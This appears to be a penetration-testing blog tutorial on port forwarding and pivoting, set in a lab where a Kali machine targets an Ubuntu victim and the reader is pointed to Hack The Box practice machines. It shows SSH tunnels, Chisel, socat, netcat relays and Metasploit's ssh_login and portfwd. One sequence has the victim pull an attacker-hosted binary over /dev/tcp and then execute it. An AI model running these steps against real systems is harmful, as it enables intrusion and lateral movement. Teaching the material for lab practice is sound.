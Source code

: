 ```yaml
---
title: "Port Forwarding"
image: 
  path: /assets/images/tutorials/PortForwarding/headerPF.png
sub_title: "Basic port forwarding techniques"
categories:
  - Tutorials
  - PortForwarding
---
```


In this post we will see different port forwarding tools and techniques.
To see the different examples, we will use the following fictitious scenario.

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310123314.png){: .align-center}

Our attacking Kali machine (192.168.164.133) and our victim Ubuntu machine (192.168.164.130) which is running a python simple HTTP server only accessible locally. 

The different tools that we are going to see are:
 - SSH
- Chisel
- Socat
- Netcat
- Msfconsole / meterpreter

### SHH
We can pivot using ssh in three different ways:
 - SSH Local port forwarding
- SSH Remote port forwarding
- SSH Dynamic port forwarding (SOCKS)


#### SSH Local port forwarding

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310133017.png){: .align-center}

```bash
      root@kali:~$ ssh -L 9000:127.0.0.1:8000 ust@192.168.164.130
```

This command will make the remote web server accessible, on our localhost on port 9000.

#### SSH Remote port forwarding

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310132100.png){: .align-center}

```shell
    victim@ubuntu:~$ sudo ssh -R 9090:localhost:8000 kali@192.168.164.133
```

We have to run this command from the victim machine, once we have gained access to it. With this command, we will be able to access from our Kali to the remote application in our localhost, port 9090.

#### SSH    Dynamic port forwarding (SOCKS)

First we need to configure our proxychains file: **/etc/proxychains.conf**

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310132643.png){: .align-center}

We set socks4 on port 9000.

Then we run the following ssh command:

```shell
    root@kali:~$ ssh -D 9000 victim@192.168.164.130
```

After that, we need to configure the proxy in our browser (in this case, using foxyproxy.) 

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310133340.png){: .align-center}

We set the Proxy Type as **SOCKS4** and use the configuration we put in the proxychains.conf file.

Finally, we will be able to reach the remote HTTP server from our Kali as is it shown in the image below. 

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310133601.png){: .align-center}


### Chisel

How to install and execute Chisel:

Kali machine:
``` shell
root@kali:~/tools$ git clone https://github.com/jpillora/chisel.git
root@kali:~/tools$ cd chisel
root@kali:~/tools/chisel$ go build –ldflags=“-s –w”
root@kali:~/tools/chisel$ upx brute chisel 
root@kali:~/tools/chisel$ nc -lvnp 6666 < chisel
root@kali:~/tools/chisel$ ./chisel server -p 8002 -reverse -v
```

Victim machine:

``` shell
ust@ubuntu:~/tmp$ cat < /dev/tcp/192.168.164.133/6666 > chisel
ust@ubuntu:~/tmp$ chmod 755 chisel
ust@ubuntu:~/tmp$ ./chisel client 192.168.164.133:8002 R:127.0.0.1:8000
```

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310134836.png){: .align-center}

Then we will be able to reach the remote HTTP server in our localhost port 8000.

#### Socat

For port forwarding using SOCAT, we have to run the following command:

```sh
root@kali:~/tools$ socat TCP-LISTEN:localport,fork,reuseaddr TCP:remoteIP:remoteport
root@kali:~/tools$ socat TCP-LISTEN:10000,fork,reuseaddr TCP:192.168.164.130:8000
```

#### Netcat
```sh  
root@kali:~/tools$ mknod pivot p
root@kali:~/tools$ nc -l -p 12000 0<pivot | nc 192.168.164.130 8000 1>pivot
```

#### Msfconsole / meterpreter

Use auxiliary/scanner/ssh/ssh_login module for create a session
```sh
root@kali:~/tools$ msfconsole
msf5 use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.164.130
msf5 auxiliary(scanner/ssh/ssh_login) > set username victim
msf5 auxiliary(scanner/ssh/ssh_login) > set password pass
msf5 auxiliary(scanner/ssh/ssh_login) > exploit 
msf5 auxiliary(scanner/ssh/ssh_login) > sessions -l 
msf5 auxiliary(scanner/ssh/ssh_login) > sessions -u ‘id’
msf5 auxiliary(scanner/ssh/ssh_login) > sessions -i ‘id’
```

Once connected, use the meterpreter session opened and do the port forwarding:

```sh
meterpreter > portfwd -h
meterpreter > portfwd add -l 1234 -p 8000 -r 192.168.164.130
meterpreter > portfwd list
```

![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\tutorials\PortForwarding\20220310135630.png){: .align-center}

## Practice
If you want to practice the techniques and tools explained in this post, you can make the following hack the box machines:

- Granny
- Grandpa
- Vault
- Reddish
